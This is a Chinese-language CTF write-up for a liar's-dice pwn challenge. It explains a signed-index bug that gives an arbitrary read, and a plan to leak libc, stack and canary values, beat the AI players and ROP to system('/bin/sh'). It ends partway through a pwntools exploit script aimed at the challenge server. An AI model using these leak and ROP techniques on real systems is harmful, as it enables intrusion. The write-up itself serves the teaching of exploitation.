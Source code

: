      v2 = read_int("Player? ");
     if ( v2 &lt;= players )
         result = (unsigned int)a1[v2];
     else
         result = 0xFFFFFFFFLL;
     return result;
 `}`
</code></pre>
<p>`v2`是个符号整数，所以存在一个负整数溢出的情况，也就是说，我们可以通过这个实现一个任意地址读的效果；再加上存放骰子点数对应个数的数组是在堆上的，所以完全可以leak出来。<br>
但是注意到这个功能调用的次数等于总玩家的个数，所以为了能够得到所有点数的个数信息，同时为了获胜更快一点，这里选择5个玩家即可。</p>
</li>- 若是，则判断用户玩家的猜测是否是正确的，即如果骰子个数猜多了，AI就会报`liar`；如果个数正好合适，AI就会报`spot on`；如果没有问题，就会当作上一个玩家也是AI做同样的决定。
- 若不是，则首先判断如果报出的点数和个数分别为`x`，`y + 1`是否正确；若正确则返回，并选择报出`x`，`y + 1`；若不正确，则增大`x`搜索，搜到则返回，没搜到则说明上一个AI报出的`y`正好等于点数为`x`的骰子的个数，于是后面会报出`spot on`。
### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF"></a>利用思路
1. 首先，利用`get_dice_left`中的任意地址读，将堆上残留的libc address读出来，再将libc中的environ中存放的stack address读出来，再将栈上的canary读出来，这样首先完成了leak。
1. 然后，正式开始游戏前，获取堆上存放的骰子的各个点数对应的个数信息，并根据上一个AI玩家报出的`x`，`y`得出一条让我们自己获得一个额外骰子的机会，即正好再一下轮到我们的时候，报出`spot on`。
1. 由于我们的位置是最后一个玩家的位置，所以符合上面提到的额外骰子的第二种情况，即我们的第六个骰子在真正地检查地时候不会被统计到，与AI存在信息差。
1. 利用这个信息差，比如第六个骰子点数是5，堆上存放的信息显示点数为5的骰子有4个，那么实际上在后面`count_face_cnt`得到的点数为5的骰子个数实际上为3个；只要我们报出`x = 5`以及`y = 4`，下一个AI就一定会报`spot on`，由于`count_face_cnt(5) = 3 != 4`，所以AI判断错误，会失去一个骰子。
1. 但是也存在特殊情况，即上面`x = 5`以及`y = 4`不符合规则，即上面提到的`x1 &gt; x &amp;&amp; y1 &gt;= y || x1 &gt;= x &amp;&amp; y1 &gt; y`，所以无法让AI输，因此退一步，就尽量让下一个AI的后一个AI报出`spot on`（这里让下一个AI报出`spot on`加一个额外的骰子也应该没有问题，输的概率还是更大）。
1. 于是采用上述的策略，我们不断地利用这个溢出的骰子让AI输，直到失去所有的骰子获胜。
1. 后面直接ROP执行`system("/bin/sh")`即可。
### <a class="reference-link" name="exp"></a>exp

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys, os, re

context(arch='amd64', os='linux', log_level='debug')
context(terminal=['gnome-terminal', '--', 'zsh', '-c'])

_proc = os.path.abspath('./liars')
_libc = os.path.abspath('./libc-2.31.so')
libc = ELF(_libc)
elf = ELF(_proc)

p = remote('liars.pwni.ng', 2018)

def leak(offset):
    p.sendlineafter("Leave\n", "1")
    p.sendlineafter("Player? ", str(offset))
    p.recvuntil("They have ")
    val = int(p.recvuntil(" dice", drop=True))
    if val &lt; 0:
        val = (1 &lt;&lt; 32) + val
    return val

def decide_player(num):
    p.sendlineafter("How many players total (4-10)?", str(num))

def show_dice_num(dice_face):
    p.sendlineafter("Leave\n", "1")
    p.sendlineafter("Player? ", str(dice_face))
    p.recvuntil("They have ")
    return int(p.recv(2))
```